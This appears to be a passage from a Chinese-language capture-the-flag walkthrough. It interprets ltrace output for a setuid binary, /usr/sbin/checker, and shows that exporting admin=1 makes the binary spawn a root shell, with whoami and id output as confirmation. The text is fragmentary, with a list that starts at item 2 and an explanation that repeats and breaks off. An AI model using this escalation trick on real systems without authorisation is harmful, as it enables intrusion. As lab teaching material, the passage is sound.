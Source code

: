 根据你提供的`ltrace`输出，我们可以看出以下信息：

2. `ltrace /usr/sbin/checker` 是你运行的`ltrace`命令，带上了要跟踪的程序`/usr/sbin/checker`。

3. `getenv("admin") = nil` 表示程序在运行时调用了`getenv`函数来获取环境变量"admin"的值，但该环境变量并未设置，因此返回了空指针（`nil`）。

4. `puts("Not an Admin") = 13` 表示程序调用了`puts`函数，将字符串"Not an Admin"输出到终端，并输出的字符数为13。

5. `Not an Admin` 是程序输出的字符串，它显示了“Not an Admin”这个消息。

6. `+++ exited (status 0) +++` 表示程序成功地退出了，退出状态码为0，这表示程序正常执行结束。

综上所述，这个`ltrace`输出显示了`/usr/sbin/checker`程序在运行时尝试获取名为"admin"的环境变量的值，但没有找到该环境变量，所以输出了"Not an Admin"这个消息，并正常地退出。

检查所有的环境变量，没有名为"admin"的环境变量：

```
$ echo $admin
echo $admin

```

设置环境变量"admin"的值：

```
$ export admin=1
export admin=1
$ echo $admin
echo $admin
1
```

重新执行并跟踪/usr/sbin/checker：

```
$ /usr/sbin/checker
/usr/sbin/checker
root@blog:/var/www/wordpress# whoami
whoami
root
root@blog:/var/www/wordpress# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

```
root@blog:/var/www/wordpress# ltrace /usr/sbin/checker
ltrace /usr/sbin/checker
getenv("admin")                                  = "1"
setuid(0)                                        = 0
system("/bin/bash"
```

根据你提供的`ltrace`输出，我们可以看出以下信息：

1. `root@blog:/var/www/wordpress#` 是你当前登录的用户和目录提示符。这里显示你是以root用户身份登录。

2. `ltrace /usr/sbin/checker` 是你运行的`ltrace`命令，带上了要跟踪的程序`/usr/sbin/checker`。
